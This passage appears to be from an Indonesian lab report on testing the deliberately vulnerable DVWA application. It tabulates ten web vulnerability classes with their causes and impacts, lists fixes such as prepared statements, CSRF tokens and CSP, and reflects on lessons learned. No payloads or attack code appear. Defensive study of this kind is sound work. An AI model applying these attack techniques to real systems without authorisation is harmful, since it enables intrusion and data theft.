| -- | -------------------- | ------------------------------------------------------ | ------------------------------------- | ------ |
| 1  | Brute Force          | Tidak ada limitasi percobaan login                     | Akses akun pengguna tanpa izin        |  |
| 2  | Command Injection    | Input shell tidak disanitasi                           | Eksekusi perintah di server           |  |
| 3  | CSRF                 | Tidak ada proteksi token CSRF                          | Pengubahan data tanpa izin            |  |
| 4  | File Inclusion (LFI) | Parameter `page` bisa diisi path file sistem           | Akses file sensitif di server         |  |
| 5  | File Upload          | Tidak ada filter ekstensi file yang di-upload          | Eksekusi kode jarak jauh (RCE)        |  |
| 6  | SQL Injection        | Parameter `id` tidak divalidasi                        | Akses database tanpa otorisasi        |  |
| 7  | Blind SQL Injection  | Parameter rentan terhadap SQLi tanpa feedback langsung | Akses database secara tersembunyi     |  |
| 8  | DOM-Based XSS        | Script dapat dijalankan dari URL                       | Pencurian cookie atau deface          |  |
| 9  | Reflected XSS        | Input langsung dirender tanpa sanitasi                 | Eksekusi JavaScript di browser user   |  |
| 10 | Stored XSS           | Data disimpan dan dirender tanpa sanitasi              | Eksekusi kode permanen di banyak user |  |

---

## 7. Rekomendasi Perbaikan
| No | Jenis Kerentanan         | Rekomendasi Teknis                                                                                                                                                                                                |
| -- | ------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1  | **Brute Force**          | - Implementasikan rate-limiting pada endpoint login (misalnya, max 5 attempt per IP/user dalam 10 menit).<br>- Tambahkan captcha atau delay antar percobaan login.<br>- Log aktivitas login yang mencurigakan.    |
| 2  | **Command Injection**    | - Validasi input dengan whitelist (hanya izinkan IP/hostname tertentu).<br>- Gunakan fungsi `escapeshellarg()` atau `proc_open()` yang lebih aman.<br>- Hindari menggunakan shell command jika tidak perlu.       |
| 3  | **CSRF**                 | - Implementasikan **CSRF token** unik untuk setiap form.<br>- Validasi token di sisi server.<br>- Gunakan metode `POST` untuk tindakan penting, bukan `GET`.                                                      |
| 4  | **File Inclusion (LFI)** | - Gunakan whitelist file yang dapat di-include.<br>- Validasi dan sanitasi input dengan ketat (hindari `../`).<br>- Hindari menampilkan error message yang terlalu detail.                                        |
| 5  | **File Upload**          | - Batasi jenis file yang diizinkan (misalnya hanya `.jpg`, `.png`).<br>- Simpan file dengan nama acak dan tanpa eksekusi langsung.<br>- Nonaktifkan eksekusi file di folder upload (`.htaccess`, `nginx config`). |
| 6  | **SQL Injection**        | - Gunakan **prepared statements** / **parameterized queries**.<br>- Hindari menyisipkan input user langsung ke dalam query SQL.<br>- Validasi tipe data input (misal `id` harus angka).                           |
| 7  | **Blind SQL Injection**  | - Sama seperti di atas, gunakan prepared statements.<br>- Tambahkan logging dan alert untuk deteksi query mencurigakan.                                                                                           |
| 8  | **DOM-Based XSS**        | - Jangan manipulasi DOM berdasarkan input URL tanpa validasi.<br>- Gunakan DOMPurify untuk membersihkan input HTML/JS dari user.                                                                                  |
| 9  | **Reflected XSS**        | - Lakukan *output encoding* untuk semua data user sebelum ditampilkan.<br>- Gunakan framework yang sudah aman secara default (misal React, Laravel).                                                              |
| 10 | **Stored XSS**           | - Escape seluruh karakter khusus HTML (`<`, `>`, `"` dll) sebelum menyimpan atau menampilkan kembali.<br>- Validasi dan sanitasi input user.<br>- Gunakan Content Security Policy (CSP).                          |

---

## 8. Evaluasi dan Refleksi
### Tantangan Utama

- Tantangan terbesar dalam proses pengujian ini adalah memahami bagaimana payload sederhana bisa dimanfaatkan untuk mengeksploitasi berbagai jenis kerentanan.
- Beberapa kerentanan membutuhkan kombinasi teknik atau urutan langkah tertentu agar berhasil, seperti pada Blind SQL Injection dan Stored XSS.
- Mengatur lingkungan lab DVWA dan memahami alur data di dalam aplikasi juga menjadi bagian penting dari proses.

### Pelajaran Penting
- **Validasi dan sanitasi input** merupakan fondasi utama dalam menjaga keamanan aplikasi web. Banyak serangan dapat dicegah hanya dengan memvalidasi data dari pengguna.
- **Burp Suite** sangat efektif dalam analisis request/response serta pengujian manual terhadap parameter-parameter yang rentan.
- **Pemahaman logika aplikasi** penting untuk mengetahui bagian mana yang paling berisiko diserang, terutama untuk serangan seperti CSRF dan File Upload.
- Penerapan **defense in depth** seperti CSRF token, prepared statement, CSP, dan filter file upload terbukti sangat penting dalam mencegah eksploitasi celah.

### Refleksi Keseluruhan
- Kegiatan ini memberikan wawasan nyata bahwa banyak aplikasi web rentan karena asumsi bahwa pengguna akan selalu berperilaku sesuai aturan.
- Pengujian secara langsung terhadap kerentanan menunjukkan betapa mudahnya data atau kontrol server dapat diambil alih ketika tidak ada mekanisme proteksi yang memadai.
- Melalui eksploitasi terhadap DVWA, pengetahuan tentang keamanan aplikasi menjadi lebih praktikal dan aplikatif untuk diterapkan dalam pengembangan aplikasi nyata.
